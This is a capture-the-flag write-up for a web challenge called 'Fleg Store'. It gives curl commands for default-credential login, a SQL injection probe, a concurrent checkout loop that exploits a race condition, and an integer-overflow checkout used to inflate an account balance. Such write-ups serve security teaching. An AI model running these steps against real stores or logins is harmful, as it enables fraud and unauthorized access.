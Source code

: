 # CTF Writeup: Fleg Store

**Author:** Mohamed Armaoui - C4spr0x1A

## Challenge Details
| Category       | Web Exploitation |
|----------------|------------------|
| Challenge Name | Fleg Store       |
| CTF Event      | Blitz CTF 2025   |
| Flag           | `Blitz{FLEG_L00T3R_SH0P}` |

## Solution

This writeup details my approach to solving the "Fleg Store" CTF challenge, which involved exploiting a series of business logic vulnerabilities in an e-commerce application.

### Summary

This challenge involved exploiting a series of business logic vulnerabilities in an e-commerce application. The key steps included:

1.  Initial Reconnaissance: Understanding the application's structure and identifying potential entry points.
2.  Authentication Bypass/Login: Gaining access to a user account.
3.  Race Condition for Negative Balance: Exploiting a race condition during checkout to achieve a negative balance.
4.  Integer Overflow for Balance Manipulation: Utilizing the negative balance to trigger an integer overflow, resulting in a significantly large positive balance.
5.  Flag Acquisition: Purchasing the `flag.txt` with the overflowed balance and locating the flag.

### Detailed Steps

#### Step 1: Initial Reconnaissance and Login

Upon accessing the target website, `https://flegstore-asd8webfs.blitzhack.xyz/login`, it presented a standard login form. There was no visible registration link.

Initial attempts to log in with common default credentials (e.g., admin:admin, user:user) were performed.

```bash
curl -X POST -d "username=admin&password=admin" https://flegstore-asd8webfs.blitzhack.xyz/login
curl -X POST -d "username=user&password=user" https://flegstore-asd8webfs.blitzhack.xyz/login
```

The credentials `user:user` successfully authenticated and redirected to the dashboard. Cookies were saved for subsequent requests.

#### Step 2: Exploring Features and Initial Vulnerability Attempts

After logging in, the dashboard displayed my balance, a coupon generator, and recent coupons. Navigation options included "Shop," "Cart," and "Redeem."

Common e-commerce vulnerabilities were explored:

*   Price Manipulation (Checkout): Attempts to modify `total_cost` during checkout to 0 or other arbitrary values failed, indicating server-side validation.
    *   `curl -b cookies.txt -X POST -d "total_cost=0" https://flegstore-asd8webfs.blitzhack.xyz/checkout`
*   Race Condition (Coupon Generation): Sending multiple concurrent requests to `/generate_coupon` was attempted, but the server consistently returned "Coupon limit reached," indicating a robust rate-limiting mechanism.
    *   `for i in $(seq 1 50); do curl -s -b cookies.txt -X POST -H "Content-Type: application/json" -d "{}" https://flegstore-asd8webfs.blitzhack.xyz/generate_coupon & done ; wait`
*   Negative Quantity/Integer Underflow (Buy Flag): Attempts to buy `flag.txt` with a negative quantity also failed, suggesting input sanitization.
    *   `curl -b cookies.txt -X POST -d "quantity=-1" https://flegstore-asd8webfs.blitzhack.xyz/buy_flag`
*   Injection Attacks (Redeem Coupon): Various payloads for SQL injection and template injection on the `/redeem` endpoint were tried but did not yield any exploitable results.
    *   `curl -b cookies.txt -X POST -d "coupon=' OR 1=1-- " https://flegstore-asd8webfs.blitzhack.xyz/redeem`

#### Step 3: Discovering and Exploiting Race Condition for Negative Balance

Despite initial failures, the challenge description hinted at a subtle business logic flaw. A crucial observation was made after a large number of concurrent checkout requests (`for i in $(seq 1 100); do curl -s -b cookies.txt -X POST -d "total_cost=70" https://flegstore-asd8webfs.blitzhack.xyz/checkout & done ; wait`). While no immediate success was apparent, a later check of the dashboard revealed a negative balance. This indicated a successful race condition, leading to overspending beyond the available funds.

*   Initial balance: 929
*   After race condition attempt, balance: -331

This negative balance was the key indicator of a deeper vulnerability.

#### Step 4: Exploiting Integer Overflow for Balance Manipulation

With a negative balance, the next step was to exploit an integer overflow. The hypothesis was that if the server performed `balance = balance - total_cost` and `total_cost` was a very large negative number, the calculation could wrap around to a large positive number.

1.  Add `flag.txt` to cart:
    *   `curl -b cookies.txt -X POST https://flegstore-asd8webfs.blitzhack.xyz/buy_flag`
2.  Checkout with a large negative `total_cost`: A value like 2147483648 (minimum 32-bit signed integer) was chosen as `total_cost`.
    *   `curl -b cookies.txt -X POST -d "total_cost=-2147483648" https://flegstore-asd8webfs.blitzhack.xyz/checkout`

After this request, checking the dashboard revealed a significantly high positive balance (2147483317), confirming the integer overflow.

#### Step 5: Flag Acquisition

With an immensely large positive balance, the `flag.txt` (cost: 70) could now be purchased.

1.  Add `flag.txt` to cart (if not already there):
    *   `curl -b cookies.txt -X POST https://flegstore-asd8webfs.blitzhack.xyz/buy_flag`
2.  Checkout with the normal cost:
    *   `curl -b cookies.txt -X POST -d "total_cost=70" https://flegstore-asd8webfs.blitzhack.xyz/checkout`

The dashboard or shop page did not immediately reveal the flag. However, given that the "flag.txt" was an item in the store, a direct access attempt to `flag.txt` in the web root was made.

*   `curl -b cookies.txt https://flegstore-asd8webfs.blitzhack.xyz/flag.txt`

This request successfully returned the flag.

## Flag

`Blitz{FLEG_L00T3R_SH0P}`
